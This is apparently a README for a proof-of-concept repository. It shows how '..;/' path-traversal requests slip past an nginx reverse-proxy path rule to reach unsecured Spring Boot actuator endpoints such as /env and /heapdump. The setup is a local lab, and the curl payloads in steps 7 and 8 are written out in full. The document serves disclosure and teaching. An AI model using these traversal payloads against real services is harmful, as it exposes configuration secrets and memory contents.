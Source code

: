 # Purpose
This is a PoC that combines Orange Tsais research about ["Breaking parser logic"](http://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) and an unsecure configuration of spring-boot-starter-actuator as documented in [Baeldungs Docs 3.7 Further Customization](https://www.baeldung.com/spring-boot-actuators#boot-1x-actuator)

I do not want to blame Baeldung. His documentations are incredibly helpful. He also explains what `management.security.enabled=false` means. The thing is, that we people will copy and paste this examples without reading the explanations.
Here is another example of this setting: [Learn SpringBoot absolute beginners](https://www.tutorialspoint.com/spring_boot/spring_boot_actuator.htm)

# Impact
If you have a java spring-boot service behind a reverse proxy that only exposes a sub path to the internet people may be able to access all paths on the spring-boot service. Actuator endpoints are just an example.

# Walkthrough 
1. cd spring; mvn clean install
2. cd target; java -jar orange-actuator-poc-0.0.1-SNAPSHOT.jar
3. test java service: `curl http://localhost:8080/api/hello`
4. install nginx and change nginx server listen port to 8081
5. add this to your nginx configuration to add a proxy rule:
```
	location /orange {
                proxy_pass http://localhost:8080/api;
                proxy_redirect     off;
                proxy_set_header   Host $host;
	}
```
6. start nginx
7. `curl localhost:8081/orange/..;/env`
8. `curl localhost:8081/orange/directory/..;/..;/env`

Nginx will send the request to the spring boot application at `http://localhost:8080/api/directory/..;/..;/env`
The path traversal makes that a request to `http://localhost:8080/env`
/env can be substituted by any default actuator endpoint, e.g. /trace or /heapdump
